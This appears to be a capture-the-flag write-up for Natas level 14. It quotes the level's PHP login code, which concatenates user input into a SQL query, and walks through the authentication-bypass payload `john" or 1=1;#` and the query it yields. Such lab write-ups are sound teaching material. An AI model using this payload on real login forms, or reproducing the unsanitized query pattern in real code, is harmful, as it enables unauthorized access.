



# Level 14
This level deals with  SQL Injection Vulnerability

## Quest
We are presented with a simple sign in form


Backend code for the page is below, Lets comment it
```php
<?
if(array_key_exists("username", $_REQUEST)) {  // Checks if username parameter exists in request
    $link = mysql_connect('localhost', 'natas14', '<censored>'); // Connect to db
    mysql_select_db('natas14', $link);
    
    // A query is run based on user input, no sanitization performed. Bad Practise !!
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {  // if 'debug' parameter is set, output query
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If our query return any rows, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {  // Else, Access Denied
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

<br/>

## Solution
Before going into the solution, lets look at the request that is sent when we log in. (_captured in Burp_)


Let look at below line from backend code:
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

If we enter both username and password as `admin`, our resulting query becomes:
```sql
SELECT * from users where username="admin" and password = "admin";
```
If above query produces any output (rows), then we log in, otherwise we get access denied.

Now, to perform SQL injection we enter a basic <span id=green>payload -></span> `john" or 1=1;#`
.Our query becomes
```sql
SELECT * from users where username="john" or 1=1;#" and password="";
```
Above query is now reduced to
```sql
SELECT * from users where username="john" or 1=1;
```
`#` is a comment in mysql and anything after it is ignored.<br/>This will always produce an output as long as there are rows in `users` table because `1=1` is always true.

From Backend code:
```php
if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If we found any table, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    }
```
As now our query will produce an output, password for next Level will be revealed.

Below see this in action, our request/response in Burp along with our payload. (_it has been URL encoded_)


<br/><span id=green>We successfully performed SQL injection!</span>

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
